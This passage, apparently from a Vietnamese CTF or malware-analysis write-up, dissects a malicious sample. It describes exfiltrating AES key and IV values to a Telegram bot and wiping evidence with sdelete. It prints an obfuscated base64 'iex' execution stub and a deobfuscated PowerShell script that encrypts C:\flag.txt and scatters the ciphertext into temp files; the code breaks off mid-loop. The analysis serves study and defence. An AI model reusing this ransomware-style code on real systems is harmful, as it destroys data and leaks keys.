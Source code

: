 ```python
if __name__ == '__main__':
    main()
    return None
```
##### Đoạn mã tiến hành tải xuống và thực thi file ps1 và trích xuất 2 giá trị cee và vee từ đầu ra của nó gửi lên telegram bot qua api. Sau đó sử dụng sdelete.exe để xóa file powershell này và file flag.txt
##### Cuối cùng là xóa luôn folder `encrypt`
##### Truy cập vào liên kết, ta thu được 1 lệnh thực thi base64
```
iex([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('JGJuY3hIblVUVHNEZ...NCn0NCg==')));exit
```
##### Sau khi decode mã đầu ra có vẻ bị obfuscate, sửa lại cho dễ nhìn 
![image](https://hackmd.io/_uploads/S1fSfMTBke.png)
```python
$path = 'C:\flag.txt'

$aes = New-Object System.Security.Cryptography.AesManaged
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.GenerateKey()
$aes.GenerateIV()

$keyBase64 = [System.Convert]::ToBase64String($aes.Key)
$ivBase64 = [System.Convert]::ToBase64String($aes.IV)

$fileBytes = [System.IO.File]::ReadAllBytes($path)

$encryptor = $aes.CreateEncryptor($aes.Key, $aes.IV)
$encryptedBytes = $encryptor.TransformFinalBlock($fileBytes, 0, $fileBytes.Length)

$encryptedBase64 = [System.Convert]::ToBase64String($encryptedBytes)

[System.IO.File]::WriteAllText($path, $encryptedBase64)

Write-Output $keyBase64
Write-Output $ivBase64

$tempEncryptDir = Join-Path ([System.IO.Path]::GetTempPath()) 'encrypt'

if (!(Test-Path $tempEncryptDir)) {
    New-Item -ItemType Directory -Path $tempEncryptDir
}

$targetDir = $tempEncryptDir
$filePath = $path

if (!(Test-Path $targetDir)) {
    New-Item -ItemType Directory -Path $targetDir
}

$fileContent = Get-Content -Path $filePath -Raw

$counter = 1

foreach ($char in $fileContent.ToCharArray()) {
    $cleanChar = $char -replace '[\\/:"*?<>|]', '_'
    $fileName = "$($counter * 111111)$cleanChar.txt"
```